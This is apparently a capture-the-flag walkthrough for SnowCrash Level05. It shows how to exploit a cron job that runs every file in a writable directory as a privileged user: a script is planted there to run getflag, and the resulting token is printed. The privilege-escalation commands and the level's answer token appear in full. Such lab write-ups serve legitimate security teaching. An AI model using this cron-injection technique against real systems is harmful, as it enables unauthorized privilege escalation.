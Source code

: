 # 🧊 SnowCrash - Level05 Walkthrough

## Level: 05

**Objective:** Exploit a cron job running as `flag05` to execute `getflag` and retrieve the token.

### 🧩 Step-by-step Solution

**1. Notice the mail message**

When logging into `level05`, we are greeted with:

```bash
You have new mail.
```

**2. Check the mail**

The user mail is stored at `/var/mail/level05`:

```bash
cat /var/mail/level05
```

✅ Output:

```bash
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

🔍 This means every 2 minutes, a cron job is executed as user flag05, running `/usr/sbin/openarenaserver`.

**3. Inspect the script**

Check the permissions and contents of `/usr/sbin/openarenaserver`:

```bash
ls -la /usr/sbin/openarenaserver
cat /usr/sbin/openarenaserver
```

✅ Output:

```bash
#!/bin/sh
for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

🔍 This script executes all files in `/opt/openarenaserver/` using `bash`, then deletes them.

➕ It's run as `flag05`, so any command placed there is executed with `flag05`'s privileges!

**4. Exploit the cron job**

Inject a malicious script into `/opt/openarenaserver/`:

```bash
echo "/bin/getflag > /tmp/myflag" > /opt/openarenaserver/hello
```

**5. Wait a few minutes**

After a max of 2 minutes, the cron job will run and execute your file.

**6. Retrieve the flag**

```bash
cat /tmp/myflag
```

✅ Output:

```bash
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

**🔓 Successfully moved to level06!**